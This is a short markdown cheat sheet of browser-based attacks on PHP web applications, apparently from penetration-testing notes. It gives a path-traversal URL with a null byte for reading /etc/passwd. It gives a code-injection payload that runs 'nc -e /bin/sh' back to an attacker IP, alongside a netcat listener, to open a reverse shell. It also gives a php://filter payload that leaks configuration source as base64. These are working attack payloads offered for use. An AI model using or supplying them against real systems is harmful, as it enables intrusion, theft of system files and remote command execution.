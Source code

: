 ## Hacks for in the browser

To attempt to view the /etc/passwd file </b>
`http://host/index.php?page=./../../../../../etc/passwd%00`

---
### Obtaining Shell through Browser Bar (PHP)
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
### Accessing php files on the server through the browser bar
```
http://10.11.1.208/?page=php://filter/convert.base64-encode/resource=config

# The resultant code is base64 encoded and needs to be decoded with
echo thestringofcharactersyouweregivenfromabove | base64 --decode
```

